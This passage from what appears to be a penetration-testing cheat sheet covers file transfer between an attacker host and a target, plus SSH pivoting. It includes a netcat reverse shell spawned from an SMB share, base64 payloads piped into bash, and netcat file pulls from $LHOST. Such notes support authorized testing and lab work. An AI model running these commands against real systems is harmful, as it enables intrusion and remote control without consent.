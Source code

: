 	# On target system - copy files
	copy \\$LHOST\secure\nc64.exe .
	```

2. Impacket-smbserver (with SMBv2 support)
	Seems to work in some cases, if you get a "not subscriptable" error otherwise.
	```bash
	impacket-smbserver secure . -smb2support
	
	# On target system - spawn shell straight from share
	\\$LHOST\secure\nc64.exe $LHOST $LPORT -e cmd.exe
	```

3. SMB Daemon
	Works most of the time, but is some hassle to set up and doesn't give you NetNTLM hashes as a bonus.
	```bash
	service smbd start
	```

### Linux

I usually use a simple HTTP server from python to `curl` or `wget` files on demand. 

```bash
python3 -m http.server 80 # Starts a web server in the current directory on port 80
```

There are some nice alternatives in case this is not possible. Examples are base64-encoding and netcat.

```bash
cat $FILENAME | base64 #copy output

# On target
echo -n "$BASE64FILE" | base64 -d | bash # run the file in bash
```

```bash
nc -lvnp 443 < $FILENAME

# On target
nc $LHOST 443 > $FILENAME
```

## Pivoting

SSH access always gives you the easiest pivot. You can set up a SOCKS proxy by adding the `-D` flag as follows.

```
ssh $USERNAME@$RHOST -D 1080
```
